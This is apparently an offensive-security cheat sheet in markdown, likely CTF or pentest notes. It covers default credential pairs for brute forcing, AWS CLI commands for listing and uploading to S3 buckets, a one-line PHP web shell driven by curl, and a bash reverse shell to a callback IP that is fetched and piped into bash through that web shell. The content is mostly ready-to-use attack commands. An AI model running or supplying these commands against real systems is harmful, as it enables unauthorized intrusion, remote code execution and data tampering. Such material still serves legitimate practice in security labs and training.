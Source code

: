 # 🔑 Password Default Brute forces
```shell
admin:admin
guest:guest
user:user
root:root
administrator:password
```

# ☁️ AWS

* https://awscli.amazonaws.com/v2/documentation/api/latest/index.html

```shell
sudo apt install -y awscli

aws configure  # must give values even if not used
aws --endpoint=<S3_URL> s3 ls
aws --endpoint=<S3_URL> s3 ls s3://<DOMAIN>
aws --endpoint=<S3_URL> s3 cp <FILE> s3://<DOMAIN>
```

# 🐘 Simple PHP Web Shell
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php

curl -o- http://<DOMAIN>/shell.php?cmd=<COMMAND>
# spaces and other special characters might require special encoding:
# https://en.wikipedia.org/wiki/Percent-encoding#Reserved_characters
# curl -o- http://<DOMAIN>/shell.php?cmd=ls+-la
```

# 🐚 Interactive bash reverse shell via `shell.php`
```shell
echo '#!/bin/bash
bash -i >& /dev/tcp/<CALLBACK_IP>/<LISTENING_PORT> 0>&1' > shell.sh
python3 -m http.server <PORT>  # host shell.sh

nc -nvlp <LISTENING_PORT>

curl -o- <URL>/shell.php?cmd=curl%20<IP_ADDRESS>:<PORT>/shell.sh%7Cbash
curl -o- <URL>/shell.php?cmd=wget%20-O-%20<IP_ADDRESS>:<PORT>/shell.sh%7Cbash  # for targets without curl
```

# 🗃️ Local File Inclusion (LFI) vulnerability

* https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt
